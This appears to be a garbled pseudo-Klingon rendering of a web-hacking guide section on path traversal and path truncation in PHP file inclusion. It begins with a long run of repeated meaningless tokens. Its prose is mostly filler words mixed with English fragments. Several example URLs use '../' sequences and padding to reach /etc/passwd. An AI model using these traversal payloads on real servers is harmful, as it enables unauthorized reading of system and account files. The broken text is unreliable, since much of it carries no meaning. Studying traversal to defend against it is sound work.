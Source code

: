 chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e' chIm 'e
```bash
http://example.com/index.php?page=../../../var/www/private/../../../etc/passwd
```
### **Qa'Hom QaD**

Qa'Hom QaD, web applications vItlhutlh file paths manipulate method. Qa'Hom QaD, file paths 'ej vItlhutlh security measures bypassing restricted files access laH. Qa'Hom QaD, file path, vItlhutlh security measure, vItlhutlh file pointing 'e' vItlhutlh path crafted.

PHP, file system nature vItlhutlh, file path various representations equivalent considered vIghro'. jatlh:

- `/etc/passwd`, `/etc//passwd`, `/etc/./passwd`, `/etc/passwd/` path vItlhutlh vItlhutlh vItlhutlh vItlhutlh vItlhutlh.
- vItlhutlh 6 characters 'e' `passwd` vItlhutlh, `/` (vItlhutlh `passwd/`) vItlhutlh targeted file vItlhutlh vItlhutlh.
- vItlhutlh, `.php` file path vItlhutlh (vItlhutlh `shellcode.php`), `/.` vItlhutlh vItlhutlh file vItlhutlh vItlhutlh.

vItlhutlh examples provided `/etc/passwd` access demonstrate Qa'Hom QaD, sensitive content (user account information) vItlhutlh common target:
```
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd......[ADD MORE]....
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd/././.[ADD MORE]/././.
```

```
http://example.com/index.php?page=a/./.[ADD MORE]/etc/passwd
http://example.com/index.php?page=a/../../../../[ADD MORE]../../../../../etc/passwd
```